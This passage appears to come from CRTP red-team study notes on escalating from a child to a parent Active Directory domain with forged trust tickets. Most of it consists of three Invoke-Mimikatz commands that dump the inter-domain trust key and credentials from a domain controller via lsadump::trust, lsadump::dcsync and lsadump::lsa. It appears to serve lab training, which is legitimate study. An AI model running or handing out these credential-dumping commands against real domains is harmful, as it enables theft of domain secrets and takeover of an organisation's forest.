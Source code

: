 


Child to Parent:

![Alt text](/assets/images/posts/crtp/21.png){: .align-center}




### Child to Parent using Trust Tickets

So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```
or
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```
or
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
